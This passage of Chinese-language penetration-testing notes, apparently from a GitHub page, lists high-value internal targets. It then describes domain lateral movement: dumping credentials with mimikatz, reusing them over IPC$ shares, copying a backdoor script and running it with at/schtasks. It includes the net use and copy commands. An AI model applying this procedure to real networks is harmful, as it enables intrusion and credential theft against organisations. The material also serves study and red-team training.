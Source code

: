 利用开放端口服务及计算机名判断

核心业务机器:

1.高级管理人员、系统管理员、财务/人事/业务人员的个人计算机

2.产品管理系统服务器

3.办公系统服务器

4.财务应用系统服务器

5.核心产品源码服务器（自建SVN、GIT）

6.数据库服务器

7.文件或网盘服务器、共享服务器

8.电子邮件服务器

9.网络监控系统服务器

10.其他服务器（内部技术文档服务器、其他监控服务器等）

## 域横向批量

在拿下一台内网主机后，通过本地信息搜集收集用户凭证等信息后，如何横向渗透拿下更多的主机？这里仅介绍at&schtasks命令的使用，在已知目标系统的用户明文密码的基础上，直接可以在远程主机上执行命令。

获取到某域主机权限->minikatz得到密码（明文，hash）->用到信息收集里面域用户的列表当做用户名字典->用到密码明文当做密码字典-》尝试连接->创建计划任务(at|schtasks)->执行文件可为后门或者相关命令

利用流程

1. 建立IPC链接到目标主机

2. 拷贝要执行的命令脚本到目标主机

3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本

4. 删除IPC链接

   

net use \\server\ipc$"password" /user:username # 工作组

net use \\server\ipc$"password" /user:domain\username #域内

dir \\xx.xx.xx.xx\C$\        # 查看文件列表

copy \\xx.xx.xx.xx\C$\1.bat 1.bat # 下载文件

copy 1.bat \\xx.xx.xx.xx\C$ # 复制文件

net use \\xx.xx.xx.xx\C$\1.bat /del # 删除IPC

net view xx.xx.xx.xx        # 查看对方共享



\#建立IPC常见的错误代码

（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限

（2）51：网络问题，Windows 无法找到网络路径
